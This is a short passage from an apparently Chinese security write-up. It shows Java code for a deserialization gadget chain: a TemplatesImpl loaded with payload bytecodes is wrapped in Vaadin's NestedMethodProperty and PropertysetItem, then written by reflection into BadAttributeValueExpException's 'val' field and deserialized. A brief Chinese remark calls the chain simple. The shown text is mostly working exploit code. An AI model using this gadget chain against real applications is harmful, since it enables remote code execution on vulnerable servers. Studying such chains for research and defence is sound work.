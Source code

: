 ```plain
        setFieldValue(templates, "_bytecodes", new byte[][] {payloads});
        setFieldValue(templates, "_name", "zjacky");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        PropertysetItem pItem = new PropertysetItem();

        NestedMethodProperty<Object> nmprop = new NestedMethodProperty<Object>(templates, "outputProperties");
        pItem.addItemProperty("outputProperties", nmprop);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("zjacky");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, pItem);

//        serialize(exception);
unserialize("ser.bin");

    }
}
```

[![](assets/1710900819-e2c27350f2338d105735f2dd74c411af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162559-2aec2a7a-d6dc-1.png)

整个链代码量非常少，其实还是很简单的自己动手跟下即可非常容易理解

# CTFer
